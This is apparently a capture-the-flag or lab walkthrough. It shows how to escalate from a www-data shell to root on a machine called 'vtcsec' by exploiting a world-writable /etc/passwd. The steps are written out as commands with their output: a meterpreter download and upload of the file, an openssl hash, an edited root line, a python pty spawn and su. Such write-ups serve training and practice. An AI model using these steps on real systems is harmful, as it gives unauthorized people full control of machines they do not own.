 We have a shell with limited permissions (www-data), so we need to find a way to escalate privileges in the machine. There are a number of ways with which we can get root.

## 1. Root by Modifying passwd File:
If we look at the permissions of <i>/etc/passwd</i> we can see that it is world writable! 

```r
www-data@vtcsec:$ ls -l /etc/passwd
ls -l /etc/passwd
-rw-rw-rw- 1 root root 2364 Nov 16  2017 /etc/passwd
```
By modifying the contents of <i>/etc/passwd</i>, we can change the password of the root user. For this we need to download the <i>/etc/passwd</i> file to our host machine so that we can edit it. Exit the session then download the file.

```r
meterpreter > download /etc/passwd .
[*] Downloading: /etc/passwd -> ./passwd
[*] Downloaded 2.31 KiB of 2.31 KiB (100.0%): /etc/passwd -> ./passwd
[*] download   : /etc/passwd -> ./passwd
```

Next we need to create a password hash and then replace it in the passwd file. You can use any password. I'll be using <i>PassworD</i>

```r
m1m3@kali:~$ openssl passwd -1 PassworD

$1$5ZKz/5Pi$oqR0DGUyIk1xyZnRnhtD.0
```
Open the file in your favorite text editor and then replace the password for root. The entry for root should look like this:

```r
root:$1$5ZKz/5Pi$oqR0DGUyIk1xyZnRnhtD.0:0:0:root:/root:/bin/bash
```

Now we need to upload the file back to the target and then we can login as root, with the password we added.

```r
meterpreter > upload passwd /etc/
[*] uploading  : passwd -> /etc/
[*] uploaded   : passwd -> /etc//passwd
meterpreter > shell
Process 5578 created.
Channel 2 created.
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@vtcsec:$ su 
su 
Password: PassworD
root@vtcsec:# id
id
uid=0(root) gid=0(root) groups=0(root)
root@vtcsec:#  
```
